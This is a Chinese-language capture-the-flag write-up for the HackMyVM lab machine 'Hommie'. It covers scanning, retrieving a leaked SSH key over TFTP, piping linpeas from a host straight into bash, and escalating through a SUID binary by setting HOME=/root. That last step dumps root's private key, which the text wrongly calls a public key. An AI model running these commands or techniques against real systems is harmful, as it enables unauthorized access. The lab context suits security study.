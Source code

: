 # Hommie

2024-11-04 https://hackmyvm.eu/machines/machine.php?vm=Hommie

## IP

192.168.5.40

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

访问 http://192.168.5.40/ 发现提示：

```
alexia, Your id_rsa is exposed, please move it!!!!! Im fighting regarding reverse shells! -nobody
```

发现用户名 alexia 提示 id_rsa 已经暴露

看 ftp 允许匿名登陆，发现 2 个目录，但是文件里面都没内容：

```
drwxrwxr-x    2 0        113          4096 Sep 30  2020 .web
-rw-r--r--    1 0        0               0 Sep 30  2020 index.html
```

发现 .web 目录中的 index.html 文件显示的内容与下面的 80 端口显示的一致，说明这里是 web 目录，尝试上传 web shell 后，但是 php 脚本不能执行，这个方向行不通。对 web 进行目录扫描也没发现有用的信息。

使用 nmap 对目标机器进行 udp 扫描，看看是否有开放端口:

```
sudo nmap -sU --min-rate 10000 --top-ports 20 -Pn 192.168.5.40
```

发现 tftp 可能端口开放，尝试连接 tftp 192.168.5.40 但是 tftp 不能 list 文件列表，尝试用上面说的 id_rsa 泄露这个文件名去 get id_rsa 发现可以下载。

使用此 id_rsa 进行登陆，得到 user flag:

```
alexia@hommie:~$ cat user.txt
Imnotroot
```

使用 linpeas 找到提升至 root 的路径：

```
wget -q -O - http://192.168.5.3/scripts/lin/enum/peas.sh|bash
```

发现了 suid 程序 /opt/showMetheKey，使用 strings 对其进行分析，发现读取 id_rsa 的命令：

```
cat $HOME/.ssh/id_rsa
```

将 HOME 设置成 /root 就可以读取 root 下的 rsa 公钥文件：

```
HOME=/root

/opt/showMetheKey
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAvBYog1I3rTTmtMw6i7oPRYy7yj8N6zNT3K9QhalnaTF+Md5NjbX5
hhNfZjO0tNbMGEeJtNTc3FpYWcAujrrd3jO5MzHUWAxQoyYYrZOFj2I5Fz/0RxD7e89H11
5nT7+CSUeddP/UeoyvSPgaruwrwD+dUl7+GiXo3sc5vsq3YufTYh1MlMKb/m7KmVk5n4Tk
/IFJwuuc3U4OZiRwXOmK4W2Gfo0Fonu6vFYmhpcCsi7V8g3hpVmOZIU8ZUtG1YbutCVbOC
EGyc1p5nbnyC0IIF5Y2EhjeevX8gmj4Kdv/y6yuvNdsJKm+ed2EEY9AymmPPwIpQshFwKz
Y0yB8N1jkQAAA8BiCyR9YgskfQAAAAdzc2gtcnNhAAABAQC8FiiDUjetNOa0zDqLug9FjL
vKPw3rM1Pcr1CFqWdpMX4x3k2NtfmGE19mM7S01swYR4m01NzcWlhZwC6Out3eM7kzMdRY
DFCjJhitk4WPYjkXP/RHEPt7z0fXXmdPv4JJR510/9R6jK9I+Bqu7CvAP51SXv4aJejexz
m+yrdi59NiHUyUwpv+bsqZWTmfhOT8gUnC65zdTg5mJHBc6YrhbYZ+jQWie7q8ViaGlwKy
LtXyDeGlWY5khTxlS0bVhu60JVs4IQbJzWnmdufILQggXljYSGN569fyCaPgp2//LrK681
2wkqb553YQRj0DKaY8/AilCyEXArNjTIHw3WORAAAAAwEAAQAAAQA/OvPDshAlmnM0tLO5
5YLczsMS6r+zIj4/InDffmPVaV4TRbisu1B3Umvv39IQOWXDg8k3kZfuPDEXexQrx4Zu/N
R18XqBXyJ8toH1WHK+ETdAKa/ldEAXD0gHjyUMGkWifQDiJF86E7GZxk6yH5NVvg0Vc/nY
sIXo3vD6wwuDo/gj+u4RRYMH3NYkLSj/O67cxGXnTOZPGzGsFTrE218BNtNqbRBR9/immU
irjugqebxY135Z4oECe/Hv4mP2e7n5QVO8FnYklQ4YU6y0ZTAMtjZCAhslXSKvaJPLjXuk
/HpdYhSoojm3vTAq/NT/oir0wA2ZYGdnF/Bxm6v/mntBAAAAgF2pqZEe9UqzcsAfOujr6z
DMRgPpl8qsdhDz6aftdg24AYmgXJ1D7PWUDpU6puO3VxJGrOwvcgD6xELRTxeFjd/2ssrh
4OO/kTvK4K0WVB/bnZ4y724iLcThfHDbzTTc5ckn45tyso8540iKha5ay1i24GwRPWddie
B/qcB1bHNOAAAAgQDmmptuwTRwUSiU1NtZRnJFvxvzLw6Wy/Cb2G+n5KY0ce5cYHT2HSIr
zsbPaDXQNBFy4iu1DAXAJJXTrxjOaAeLVYSb/8eZ1dhcgkxoAC8i2l6NwNmsjhGQKv++fV
qMfIdzVmriLXBZf7DU97YZeDIOrdOOV5CHhq+37i4xNdK18wAAAIEA0Mzc8HYvrXk4ecyi
KXP5u2Zxw2LADJ8DFeKWZmCUuNKFD1TuqdauxKxIVKVDaHvcnEr1bOiEBBso/X1CCtKjE+
12ZOWvqZ4fORxiNs9n/9YxlUSDAw7kyKd9H7dRRFdtb80OgDiwf18tDlEdboGWm/DR0NPq
gmxzbd40GES6DWsAAAALcm9vdEBob21taWU=
-----END OPENSSH PRIVATE KEY-----
```

得到了 root 的公钥文件，使用其进行登陆，最终得到了 root flag：

```
root@hommie:~# find / -type f -name root.txt 2>/dev/null
/usr/include/root.txt
root@hommie:~# cat /usr/include/root.txt
Imnotbatman
```
